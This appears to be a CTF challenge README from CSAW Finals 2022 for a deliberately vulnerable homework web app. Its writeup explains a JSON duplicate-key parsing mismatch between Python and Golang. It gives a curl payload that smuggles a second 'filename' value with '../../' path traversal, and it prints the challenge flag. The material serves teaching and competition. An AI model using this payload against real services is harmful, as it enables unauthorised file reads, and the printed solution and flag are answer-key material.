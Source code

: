 # homeworkme
A vulnerable web app involving JSON interoperability and LFI developed for CSAW Finals 2022

Homework files are stored in `/service/files` and are sorted by hard-coded subjects. Files inside the subjects will automatically be detected by the service.



## writeup
Source is provided, vulnerability involves sending in a duplicate key as the Golang `jsonparser` and Python default JSON library interprets it differently
- Python last key precedence
- Golang jsonparser first key precendence

Send the following:
```bash
curl -X POST -d '{"filename": "[EXISTING FILE]", "filename": "../../main.py", "subject": "math"}' http://localhost:1234/homework
```

Flag is in the comment of `main.py`


flag{bro_can_i_use_your_chegg}

## references
- https://github.com/BishopFox/json-interop-vuln-labs
- https://bishopfox.com/blog/json-interoperability-vulnerabilities

- history answer key from https://notgrass.com/content/exploring_world_history_answer_key.pdf
- math homework generated from https://lewdev.github.io/apps/hw-gen/
- science homework from https://www.easyteacherworksheets.com

